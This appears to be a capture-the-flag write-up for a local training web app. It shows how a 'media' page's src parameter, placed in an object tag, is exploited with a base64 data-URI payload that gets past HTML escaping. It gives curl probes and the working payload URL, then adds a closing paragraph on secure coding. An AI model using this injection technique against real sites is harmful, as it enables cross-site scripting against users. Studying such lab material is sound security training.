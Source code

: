 # NSA page

__http://192.168.56.101/index.php?page=media&src=nsa__

## Description
We see eagle on the page. However if we change nsa in the end of the url we get the following.

```
http://192.168.56.101/index.php?page=media&src=blabla
```
we get no found.
The tag ```src``` is the attribute of ```<object>```
For example let's link to the picture.
```http://192.168.56.101/?page=media&src=/images/42.jpeg```
We see that the javascript works incorrect.
For page ```curl -s '192.168.99.101/?page=media&src=<script>alert(1)</script>' | grep 'object'```
We see page source ```<table style="margin-top:-68px;"><center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center> <tr style="background-color:transparent;border:none;"><td style="vertical-align:middle;"><object data="&lt;script&gt;alert(1)&lt;/script&gt;"></object></td></tr></table>				</div>```

## Form Outputs
So the page must use htmlspecialchars() or htmlentities()
It is possible to encode a JavaScript alert using base64 and include it in a data URI scheme. The data URI scheme allows for embedding data directly into a web page, without the need for a separate file. The format for this scheme includes specifying the media type (in this case, text/javascript) and indicating that the data is encoded in base64.

```
data:[<media type>][;base64],<data>
```
We get the following rows
```
echo -n '<script>alert(1)</script>' | base64           
```
The output is ```PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==```

## Flag
So try to input the request to the browser
```
http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
And we get the next flag.

## Safety
Developers should follow secure coding practices and regularly test their applications for vulnerabilities, while users should be cautious when visiting unfamiliar websites and ensure that their browsers and operating systems are up to date with the latest security patches. Proper input validation and output encoding should also be implemented to prevent attackers from injecting malicious code into the application and compromising user data or the entire system.